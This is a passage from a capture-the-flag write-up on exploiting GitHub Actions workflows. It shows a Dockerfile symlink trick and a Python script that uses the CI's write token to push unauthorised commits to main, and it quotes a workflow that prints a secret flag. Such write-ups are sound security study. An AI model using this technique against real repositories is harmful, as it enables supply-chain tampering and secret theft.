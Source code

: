 This allows us to push to the repository's `main` branch, so we need to find a way to commit to the
repository using the contents of the Dockerfile only.

We can do so pretty easily by adding a `RUN` instruction to the Dockerfile. However, a little issue we need to overcome
is the Docker build executing in the context of the `docker` directory, which doesn't have access to the enclosing
directory, including the `.git` directory that stores the token with write permissions which is required for pushing
to the repository.

Therfore, we simply link the `docker` directory to `.` (i.e. the repository root), and add the Dockerfile there.

There, we can then leverage a Python script to commit to the `main` branch:

```py
import os

os.system("cp -r /foo /tmp/foo")
os.system("cd /tmp/foo && git config --global user.name foo && git config --global user.email foo@bar.com")
os.system("cd /tmp/foo; git fetch; git switch main")

with open("/tmp/foo/somefile", "w") as f:
    f.write("""
foo
""")

os.system("cd /tmp/foo; git add test.json; git commit -m 'lol'; git push origin main")
```

This works and commits to the `main` branch of the repository! (after labelling the PR correctly
using the exploit from the `pr_check.yml` workflow) - Nice.

## Leaking the flag

This was the most intricate part of the challenge, which left me searching for the right entrypoint for hours.
However, it's also the most interesting part, as the solution requires exploitation of a novel technique, and
a widely unknown feature.

The `flag.yml` workflow only prints the `flag` secret to the screen:

```yaml
name: Get Flag

on: pull_request_target

jobs:
  flag:
    if: contains(github.event.pull_request.labels.*.name, 'flag')
    runs-on: ubuntu-24.04
    timeout-minutes: 1
    permissions:
      contents: read
    steps:
      - uses: actions/checkout@v5
      - name: Message
        run: |
          echo "Your last words before not getting the flag:"
          git show -1 -s --format=%s
      - name: Flag
        env:
          FLAG: ${{ secrets.FLAG }}
        run: echo "$FLAG"
```